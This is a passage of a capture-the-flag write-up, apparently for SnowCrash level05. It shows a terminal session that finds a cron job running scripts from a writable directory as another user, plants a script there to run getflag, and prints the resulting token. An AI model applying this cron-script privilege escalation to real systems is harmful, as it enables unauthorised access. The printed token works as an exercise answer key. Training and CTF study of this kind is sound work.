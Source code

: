 level05@SnowCrash:/opt/openarenaserver$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:/opt/openarenaserver$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
level05@SnowCrash:/opt/openarenaserver$ echo "/usr/bin/whoami > /tmp/hacked" > hacked.sh
level05@SnowCrash:/opt/openarenaserver$ chmod +x hacked.sh
level05@SnowCrash:/opt/openarenaserver$ cat /tmp/hacked
level05@SnowCrash:/opt/openarenaserver$ echo "getflag > /tmp/flag05_result" > exploit.sh
level05@SnowCrash:/opt/openarenaserver$ chmod +x exploit.sh
level05@SnowCrash:/opt/openarenaserver$ sleep 120
level05@SnowCrash:/opt/openarenaserver$ cat /tmp/flag05_result
Check flag.Here is your token : viuaaale9huek52boumoomioc